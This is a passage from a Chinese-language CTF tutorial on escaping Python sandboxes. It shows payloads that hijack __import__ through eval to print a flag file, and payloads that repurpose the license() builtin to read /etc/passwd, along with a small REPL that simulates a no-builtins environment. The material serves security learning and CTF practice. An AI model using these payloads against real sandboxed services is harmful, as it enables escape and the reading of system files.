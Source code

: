 ```py
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
这个 payload 将 `__import__` 函数进行覆盖, 最后的 {}[1337] 在正常情况下会引发 KeyError 异常，因为 Python 在引发异常时会尝试导入某些模块（比如traceback 模块），导入时就会触发 `__import__`.


#### 通过 license 函数读取文件

```py
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```
上面的 payload 修改内建函数 license 的文件名列表为 /etc/passwd 当调用 `license()` 时会打印这个文件的内容.
```py
>>> __builtins__.__dict__["license"]._Printer__filenames
['/usr/lib/python3.11/../LICENSE.txt', '/usr/lib/python3.11/../LICENSE', '/usr/lib/python3.11/LICENSE.txt', '/usr/lib/python3.11/LICENSE', './LICENSE.txt', './LICENSE']
```
payload 中将 help 类的 `__enter__` 方法覆盖为 `license` 方法, 而 with 语句在创建上下文时会调用 help 的`__enter__`, 从而执行 `license` 方法. 这里的 help 类只是一个载体, 替换为其他的支持上下文的类或者自定义一个类也是可以的. 例如:
```py
class MyContext:
    pass
    
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = MyContext()
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

## 其他技巧

### 模拟 no builitins 环境
no builtins 环境和 python 交互式解析器还是有所差异, 但交互式解析器并没有提供指定命名空间的功能,因此可以自己编写一个脚本进行模拟:
```py
def repl():
    global_namespace = {}
    local_namespace = {}

    while True:
        try:
            code = input('>>> ')
            try:
                # Try to eval the code first.
                result = eval(code, global_namespace, local_namespace)
            except SyntaxError:
                # If a SyntaxError occurs, this might be because the user entered a statement,
                # in which case we should use exec.
                exec(code, global_namespace, local_namespace)
            else:
                print(result)
        except EOFError:
            break
```